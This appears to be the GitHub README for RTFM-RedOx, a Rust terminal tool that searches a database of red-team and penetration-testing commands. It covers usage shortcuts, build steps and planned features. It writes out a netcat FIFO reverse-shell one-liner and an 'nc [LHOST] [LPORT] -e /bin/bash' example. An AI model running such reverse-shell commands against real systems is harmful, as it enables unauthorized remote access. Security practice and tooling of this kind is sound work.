RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin.  All without the need to leave your terminal to search through notes or open a browser window, or continually run a python script with a lot of switches you'll never remember.  It's basically like having a terminal history and history search for commands you never type in your terminal but often type when you have a shell on a remote host or when interacting with a vulnerable web app.  That being said, the database also contains many commands you'd also run on your attack machine for things like nmap, impacket scripts (adding as I go), crackmapexec, and 

As I've been working on this I've realized this can also be a good learning resource.  For example, the following reverse shell one liner has been used by many but is probably not all that well understood.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f
```
0xdf has a [great video](https://www.youtube.com/watch?v=_q_ZCy-hEqg) that does just that. I will be updating references for commands in the database that include deep dive explanations, preferrably to video content, that provide a better understanding for more complex commands.  Any commands related to Kerberos, ADCS or Windows authentication in general will benefit from these types of external references to explainers.  The commands in the database from the original RTFM project do have links to websites and many of those are good but some need updating or additional references to more in depth explanations. 

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I will be gradually adding new commands and pushing the edited db file to the repository.    


## Usage
```
Ctrl+r           Enter quick search mode to dynamically find commands as you type.
Ctrl+c           Copy currently selected command to clipboard.
Ctrl+u           URL-encode and then copy currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from clipboard
info             Display info on the currently selected command.
env              Show currently set user variables
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           update database columns of currently selected command e.g. 'update comment bash reverse shell'.
Esc              Exit current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

**Issues**
Debian distributions: If the linker fails during build, install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

Kali: Sometimes the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in terminal.  And in some cases Ctrl+h stops working so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues. 

Arch: No known issues

Mac M1: Screen flicker when using up/down arrows 

Windows: Currently not supported because Termion does not work on windows.  I'll switch to crossterm at some point.


## To Add
- [x] After adding a new command to the db select it as the current command.
- [ ] Continue updating database with newer commands for things like Crackmapexec,ffuf,feroxbuster,Rubeus,Impacket, etc.
- [ ] Update command reference links to better and more up to date content, preferably adding links to video content when possible.
- [ ] Display ids next to references so that if necessary they can be deleted from the db through the redox CLI.  
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  At the moment, tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Tab auto complete for best match while in search mode.
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare so I can create a release build.

